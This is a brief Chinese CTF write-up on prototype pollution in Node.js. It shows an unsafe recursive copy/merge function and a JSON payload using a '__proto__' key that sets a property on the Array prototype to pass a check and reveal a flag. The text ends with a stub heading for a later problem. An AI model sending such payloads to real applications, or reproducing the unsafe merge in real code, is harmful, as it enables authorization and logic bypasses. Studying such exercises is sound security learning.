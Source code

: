 `common.js`

```javascript
module.exports = {
  copy:copy
};

function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

这题最好的理解如下，摘抄至别处

> 这里的 `secert` 是一个数组，然后 `utils.copy(user,req.body);` 操作是 `user` 也是数组，也就是我们通过 `req.body` 即 POST 请求体传入参数，通过 `user` 污染数组的原型，那么 `secert` 数组找不到 `ctfshow` 属性时，会一直往原型找，直到在数组原型中发现 `ctfshow` 属性值为 `36dboy` 。那么 `if` 语句即判断成功，就会输出 flag 了。

所以我们的payload如下：
```javascript
{
    "__proto__": {
        "ctfshow": "36dboy"
    }
}
```



![image-20250131165241660](https://gitee.com/bx33661/image/raw/master/path/image-20250131165241660.png)









## synk

那第339题为例子

![image-20250131170751346](https://gitee.com/bx33661/image/raw/master/path/image-20250131170751346.png)

